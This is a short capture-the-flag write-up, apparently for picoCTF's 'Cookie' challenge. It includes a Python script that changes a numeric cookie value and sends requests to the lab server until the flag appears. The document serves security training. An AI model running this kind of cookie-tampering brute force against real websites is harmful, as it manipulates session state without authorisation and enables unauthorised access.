 # Cookie
## Description

Who doesn't love cookies? 
Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Info

Wee have cookie in browser, when you change the value `0` to `1` the name of cookie change.

## Exploit
Try all number and find the best one

## Script
```python
import requests


for id_cookie in range(17, 19):
    cookie_payload = {"name": f"{id_cookie}"}
    response = requests.get(
        "http://mercury.picoctf.net:21485/check", cookies=cookie_payload)

    if "picoCTF{" in response.text:
        print(response.text)
        print(response.text[response.text.find(
            "<code>") + len("<code>"): response.text.find("</code>")])
```
